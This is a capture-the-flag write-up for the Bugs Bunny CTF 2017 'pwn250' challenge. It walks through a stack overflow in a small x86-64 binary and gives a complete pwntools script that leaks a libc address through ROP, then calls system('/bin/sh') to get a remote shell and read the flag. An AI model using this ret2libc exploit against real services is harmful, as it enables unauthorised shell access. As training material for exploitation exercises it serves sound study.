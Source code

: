 ```yaml
---
title: pwn250 (pwnage 250)
category: bugs_bunny_ctf_2k17
author_member: muffinx
show_comments: false
---
```



Description:

```
Oh, you can still solve this too?
please try harder

task : nc 54.153.19.139 5255
libc : https://drive.google.com/file/d/0B5gmSy61RokzSFk1clNoWGRveWs/
```

Binary type:

```
pwn250: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b92b9ef9aa21452b83be93778ed175c6c37de92d, not stripped
```

Binary security measurements:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```


The code is pretty straight forward:
```c++

ssize_t here()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x100uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  here();
  write(1, "Hello, World\n", 0xDuLL);
  return 0;
}
```

We also got a libc.so from the challenge, so we'll do some ret2libc.
First we need to locate where the libc is loaded, so we can use it for ret2libc.

We use rop to leak the address of read in the .got.plt, we then subtract it with the
offset of read in the libc.so to get the loaded libc adress.

We'll do this by using the write function, here's an example how it is used by the application to
print "Hello, World":

```
.text:00000000004005AB                 mov     edx, 13         ; n
.text:00000000004005B0                 mov     esi, offset aHelloWorld ; "Hello, World\n"
.text:00000000004005B5                 mov     edi, 1          ; fd
.text:00000000004005BA                 call    _write
```

edx = holds number of bytes to write
esi = holds the address to read
edi = where to write the bytes to (file descriptor)

We can set these values by using this wonderful rop gadget:

```
0x000000000040056a : pop rdi ; pop rsi ; pop rdx ; ret
```

So we set:

rdx = 0x8 (read 8 bytes)
rsi = 0x0601020 (read got.plt)
rdi = 0x01 (stdout)

Now jumping to write, we have successfully leaked libc.
To pause the program and to make a second overflow, we jump back into the vulnerable function "here" @ 0x0400571.

After that, with the calculated libc base address, we can do a classical ret2libc.

```
0x0400633 # pop rdi ; ret
*address of /bin/sh*
*address of system*
```

Here's my exploit:

```python

#!/usr/bin/env python

from pwn import *

#libc = ELF('/lib/x86_64-linux-gnu/libc-2.19.so')
libc = ELF('./libc.so')

#r = process('./pwn250')
r = remote('54.153.19.139', 5255)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0400591
#continue
#continue
#''')

payload = 'A'*136
payload += p64(0x040056a) # pop rdi ; pop rsi ; pop rdx ; ret
payload += p64(0x01) # rdi = 1 (fd)
payload += p64(0x0601020) # rsi -> read got.plt
payload += p64(0x08) # rdx = 8 (number of byte)
payload += p64(0x0400430) # write
payload += p64(0x0400571) # here()

r.sendline(payload)


addr_unpacker = make_unpacker(64, endian='little', sign='unsigned')

leaked_read_addr = r.recv(8)
# rebase libc
libc.address = addr_unpacker(leaked_read_addr) - libc.symbols['read']

print 'leaked read at: ' + hex(libc.symbols['read'])
print 'leaked system at: ' + hex(libc.symbols['system'])
print 'leaked /bin/sh at: ' + hex(next(libc.search('/bin/sh\x00')))


payload2 = 'A'*136
payload2 += p64(0x0400633) # pop rdi ; ret
payload2 += p64(next(libc.search('/bin/sh\x00'))) # rdi -> /bin/sh
payload2 += p64(libc.symbols['system']) # system

r.sendline(payload2)
r.interactive()
```

Oh, we got a shell!

```
$ cat /home/pwn250/flag
Bugs_Bunny{Did_Ropgadget_help_pwner!_maybe_we_have_smart_guys_here!!}
```
